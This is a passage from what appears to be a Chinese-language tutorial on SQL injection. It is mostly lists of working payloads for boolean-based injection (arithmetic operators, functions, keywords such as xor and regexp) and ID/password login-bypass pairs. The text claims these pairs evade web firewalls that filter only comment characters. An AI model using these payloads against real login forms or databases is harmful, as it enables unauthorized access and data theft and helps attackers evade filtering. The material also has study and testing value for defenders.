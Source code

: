 ```
'+2+5-7#
'+0+0-0#
'-0-0-0-0-0#
'*9*8*7*6*5#
'/2/3/4#
'%12%34%56%78#
'/**/+/**/0#
'-----0#
'+++0+++++0*0# 
```

下一种攻击方法使用的是函数功能。在这篇文章中，我无法向你们展示所有的函数。这个攻击方式并不难，所以你们可以使用函数进行你们想要的真/假 SQL 攻击。而这种攻击是“真 SQL 注入”或是“假 SQL 注入”取决于函数返回后的最后一个操作。

```
'<hex(1)#
'=left(0x30,1)#
'=right(0,1)#
'!=curdate()#
'-reverse(0)#
'=ltrim(0)#
'<abs(1)#
'*round(1,1)#
'&left(0,0)#
'*round(0,1)*round(0,1)# 
```

此外，您还可以将空格做为函数名进行攻击。但你只能在某些函数中使用空格。

```
'=upper     (0)# 
```

这一次，SQL 的关键字是方法。这种方法根据情况视作为真或假 SQL 注入。

```
' <1 and 1#
'xor 1#
'div 1#
'is not null#
admin' order by'
admin' group by'
'like 0#
'between 1 and 1#
'regexp 1# 
```

在 id 或 password 区域中没有额外注释的很可能是真的假 SQL 注入。一般的 web 防火墙只过滤#, --, /**/,因此该方法在 web 防火墙中更有效。

```
ID  : '='
PASS: '='

ID  : '<>'1
PASS: '<>'1

ID  : '>1='
PASS: '>1='

ID  : 0'='0
PASS: 0'='0

ID  : '<1 and 1>'
PASS: '<1 and 1>'

ID  : '<>ifnull(1,2)='1
PASS: '<>ifnull(1,2)='1

```